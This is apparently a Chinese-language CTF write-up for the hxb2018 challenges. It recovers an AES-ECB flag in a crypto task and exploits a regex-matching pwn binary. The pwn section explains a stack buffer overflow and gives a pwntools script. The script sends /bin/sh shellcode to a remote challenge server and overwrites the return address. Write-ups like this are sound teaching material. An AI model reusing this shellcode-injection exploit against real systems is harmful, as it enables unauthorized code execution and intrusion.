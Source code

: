 ![image](./img/pasted%20image%200%20(1).png)

### CRYPTO

#### common crypto

>  根据二进制分析,是aes-ecb加密flag,但是只是加密了前16字节,后16字节没有加密,动态调试得到key即可.`key:\x1b.5FXnr\x86\x9b\xa7\xb5\xc8\xd9\xef\xff\x0c\xc58\xcbs\x9dV\xb9\xf5\x06\xf1\x0c=\xdf\x1e\xf31[:16]`

```python
In [70]: c = "4aee37c73d902a185407ebef96b2798539646536663335323135323035353636"

In [71]: len(c)
Out[71]: 64

In [73]: from Crypto.Cipher import AES

In [80]: aes = AES.new('\x1b.5FXnr\x86\x9b\xa7\xb5\xc8\xd9\xef\xff\x0c\xc58\xcbs\x9dV\xb9\xf5\x06\xf1\x0c=\xdf\x1e\xf31'[:16], AES.MODE_ECB)

In [81]: aes.decrypt("4aee37c73d902a185407ebef96b2798539646536663335323135323035353636".decode("hex"))
Out[81]: 'hxb2018{aa887175;\xe5\xc2\xd1\tZ\x05<\xae\x8d`R\x8fO6<'

In [86]: "4aee37c73d902a185407ebef96b2798539646536663335323135323035353636".decode("hex")
Out[86]: 'J\xee7\xc7=\x90*\x18T\x07\xeb\xef\x96\xb2y\x859de6f35215205566'

In [87]: hxb2018{aa8871759de6f35215205566}
```

`flag: hxb2018{aa8871759de6f35215205566}`

### PWN

#### Regex Format

> 简单的正则匹配：
>
> 正则表达式以冒号开始+自定义字符集+以$结尾，则在正则表达式中的字符集中配置待匹配串中的一个字符，以$+结尾，则匹配多次，最多匹配1000次，以$*结尾，匹配0次或者多次，最多1000次。
>
> 在匹配的过程中，会将待匹配串的中符合正则的字符拷贝到栈上的临时变量上，该变量长100字节，而$+模式可以匹配1000个字符，造成栈溢出，没有开任何保护，直接执行shellcode即可

```python
from pwn import *

#p = process("./pwn1")
p = remote("47.107.172.28",8888)
sc = "\x33\xd2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62"
sc += "\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

p.recvuntil("[*]please input the regex format\n")
p.sendline(":"+sc+"$+" + ":2" + p32(0x0804A260) + "$+")
p.recvuntil("[*]please input the string to match\n")
payload = ""
payload += "Before "
payload += "u"
payload += " it, "
payload += "u"
payload += " it "
payload += "f."
payload +=sc
payload += "2"*(0xd8) + p32(0x0804A260)

```